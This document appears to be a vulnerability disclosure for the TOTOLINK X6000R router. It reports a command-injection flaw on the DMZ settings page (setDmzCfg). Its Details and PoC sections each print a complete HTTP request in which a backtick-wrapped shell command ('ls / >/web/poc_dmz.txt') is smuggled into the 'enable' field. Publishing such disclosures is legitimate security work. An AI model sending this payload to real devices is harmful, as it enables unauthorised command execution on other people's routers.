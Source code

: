 # Summary
There is a command execution vulnerability in TOTOLINK X6000R V9.4.0cu.852_B20230719(https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/247/ids/36.html).

Affected component is "/advance/dmz.html".

# Details
Web front-end interface:
![image](https://github.com/user-attachments/assets/a700b13b-1e24-4d80-a2a3-f30238159ff2)

Capture the packet and see the enable parameter, and do a blind test directly:
![image](https://github.com/user-attachments/assets/dd17a671-f613-4e51-9c7e-3af5e7d96f49)

```HTTP
POST /cgi-bin/cstecgi.cgi?token=B5904DB48F93AAA0 HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 60
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/dmz.html?token=B5904DB48F93AAA0
Priority: u=1

{"enable":"`ls / >/web/poc_dmz.txt`","topicurl":"setDmzCfg"}
```
![image](https://github.com/user-attachments/assets/09c21842-a8da-4575-903e-5f3b1542b638)

![image](https://github.com/user-attachments/assets/49d82a2b-0b1b-4a01-95d9-8ebea9f4afee)



# PoC
Capture the packet and see the enable parameter, and do a blind test directly:
```HTTP
POST /cgi-bin/cstecgi.cgi?token=B5904DB48F93AAA0 HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 60
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/dmz.html?token=B5904DB48F93AAA0
Priority: u=1

{"enable":"`ls / >/web/poc_dmz.txt`","topicurl":"setDmzCfg"}
```
![image](https://github.com/user-attachments/assets/09c21842-a8da-4575-903e-5f3b1542b638)

![image](https://github.com/user-attachments/assets/49d82a2b-0b1b-4a01-95d9-8ebea9f4afee)

